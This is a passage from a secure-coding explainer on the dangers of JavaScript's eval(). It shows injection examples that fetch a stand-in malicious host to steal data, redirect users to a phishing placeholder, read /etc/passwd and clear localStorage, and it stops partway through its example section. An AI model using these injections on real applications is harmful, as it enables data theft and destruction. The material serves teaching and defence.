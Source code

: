 #### 1. **Arbitrary Code Execution**
`eval()` executes **any JavaScript code** passed to it, not just mathematical expressions:

```javascript
// DANGEROUS: eval() executes arbitrary code
eval("2 + 3 * 4");           // ✅ Safe: Returns 14
eval("alert('Hacked!')");     // ❌ Dangerous: Shows alert
eval("document.body.innerHTML = '<h1>Hacked!</h1>'"); // ❌ DOM manipulation!
eval("fetch('https://malicious-site.com/steal-data')"); // ❌ Data theft!
```

#### 2. **Code Injection Attacks**
If user input reaches `eval()`, attackers can inject malicious code:

```javascript
// VULNERABLE CODE (NEVER DO THIS!)
function calculate(expression) {
    return eval(expression); // ❌ Extremely dangerous!
}

// Attack scenarios:
calculate("2 + 3");                    // ✅ Looks innocent
calculate("alert('XSS Attack!')");     // ❌ Executes arbitrary code
calculate("localStorage.clear()");     // ❌ Could destroy user data
calculate("location.href='https://malicious-site.com'"); // ❌ Redirects user
```

#### 3. **Access to Global Scope**
`eval()` has access to the entire JavaScript execution context:

```javascript
// eval() can access/modify global variables and functions
let secretApiKey = "abc123";
eval("console.log(secretApiKey)"); // ❌ Could expose secrets
eval("secretApiKey = 'stolen'");   // ❌ Could modify sensitive data
eval("fetch('/api/admin/users')"); // ❌ Could access restricted APIs
```

#### 4. **No Input Validation**
`eval()` doesn't distinguish between safe mathematical expressions and dangerous code:

```javascript
// These all execute with eval():
eval("2 + 3");                    // ✅ Math
eval("process.exit()");           // ❌ Could crash server
eval("require('fs').readFileSync('/etc/passwd')"); // ❌ Could read system files
eval("window.open('https://malware-site.com')");   // ❌ Could open malicious sites
```

#### 5. **Real-World Attack Examples**

**Example 1: Calculator Hijacking**
```javascript
// User enters: "Math.random() < 0.5 ? 42 : location.href='https://phishing-site.com'"
// Result: 50% chance of redirecting to malicious site
```
